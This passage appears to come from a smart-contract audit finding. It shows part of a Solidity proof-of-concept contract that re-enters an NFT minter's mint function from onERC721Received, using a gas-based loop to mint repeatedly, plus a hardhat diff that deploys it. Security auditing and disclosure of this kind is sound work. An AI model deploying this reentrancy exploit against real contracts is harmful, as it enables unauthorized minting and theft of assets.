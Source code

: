```
         _lastUserData._saltfun_o
     );
 }

 function attack(
     Data memory _lastUserData
 ) public payable {
 minterContract.mint(
     _lastUserData._collectionID,
     _lastUserData._numberOfTokens,
     _lastUserData._maxAllowance,
     _lastUserData._tokenData,
     _lastUserData._mintTo,
     _lastUserData.merkleProof,
     _lastUserData._delegator,
     _lastUserData._saltfun_o
 );

     delete lastUserData;
 }

 function onERC721Received(
     address operator,
     address from,
     uint256 tokenId,
     bytes calldata data
 ) external returns (bytes4) {
     if (exploitMintCount == 0) {
         gasPerIteration = initialGas - gasleft();
     }
     exploitMintCount++;

     if (!received) {
         if ((gasleft() / gasPerIteration) < 1) {
         received = true;
         }
         this.attack(lastUserData);
     }

     return IERC721Receiver.onERC721Received.selector;
 }
}

```

Deploy the contract inside by making the following changes to https://github.com/code-423n4/2023-10-nextgen/blob/main/hardhat/scripts/fixturesDeployment.js:

```diff
diff --git a/fixturesDeployment.original.js b/fixturesDeployment.js
index 3c24466..d4bb785 100644
--- a/fixturesDeployment.original.js
+++ b/fixturesDeployment.js
@@ -42,6 +42,9 @@ const fixturesDeployment = async () => {
  await hhAdmin.getAddress(),
)

+  const attackerFactory = await ethers.getContractFactory("TestAttackerMintReentrancy")
+  const attacker = await attackerFactory.deploy(await hhMinter.getAddress())
+
const contracts = {
  hhAdmin: hhAdmin,
  hhCore: hhCore,
  hhMinter: hhMinter,
```